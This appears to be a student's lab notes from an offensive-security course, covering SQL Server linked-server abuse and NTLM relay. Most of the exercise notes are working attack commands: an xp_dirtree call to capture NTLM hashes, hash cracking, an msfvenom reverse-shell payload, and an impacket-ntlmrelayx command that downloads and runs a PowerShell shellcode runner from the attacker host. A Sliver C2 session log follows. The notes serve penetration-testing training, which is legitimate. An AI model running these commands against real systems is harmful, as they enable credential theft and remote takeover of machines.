 - **Permissions**: Only accounts with certain privileges on the SQL Server will be able to enumerate linked servers and execute commands. You may need to escalate your privileges beforehand.

By using these techniques, you can potentially escalate your privileges in an environment where linked servers are configured insecurely.


### Exercise Notes:

#### My C# code 


#### 15.1.3.1 Q2
- used MSSQLEnumeration code 
- text file with commands differed from Offsec `EXEC master.sys.xp_dirtree '\\192.168.45.151\test',1,1`
- captured ntlm hash
- cracked using hashcat and john (hashcat was faster)

#### 15.1.4.1

- configure stage listener using `sliver`
- generate msfvenom powershell payload and add to `shellcode-runner.ps1`

```bash
msfvenom -p windows/x64/custom/reverse_tcp LHOST=192.168.45.197 LPORT=9999 --format powershell
```

- on kali start `impacket-ntlmxrelay` (*Note:* trying to base64 encode command string kept failing so I resorted to )

```bash
❯ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.188.6 -c "powershell -ep bypass IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.45.197:8000/shellcode-runner.ps1')"
```

- `sliver` received request

```bash
[server] sliver > mtls -l 9001

[*] Starting mTLS listener ...

[*] Successfully started job #1

[server] sliver > profiles new --mtls 192.168.45.197:9001 -l -f shellcode osep_shellcode

[*] Saved new implant profile osep_shellcode

[server] sliver > stage-listener -u tcp://192.168.45.197:9999 -p osep_shellcode

[*] No builds found for profile osep_shellcode, generating a new one
[*] Sliver name for profile osep_shellcode: ILLEGAL_COINSURANCE
[*] Job 2 (tcp) started

[server] sliver > jobs

 ID   Name   Protocol   Port   Stage Profile
==== ====== ========== ====== ===================================================
 1    mtls   tcp        9001
 2    TCP    tcp        9999   osep_shellcode (Sliver name: ILLEGAL_COINSURANCE)

[*] Session aebd0480 ILLEGAL_COINSURANCE - 192.168.188.6:50042 (appsrv01) - windows/amd64 - Sat, 31 Aug 2024 17:00:29 EDT

[server] sliver > whoami

[!] Please select a session or beacon via `use`
```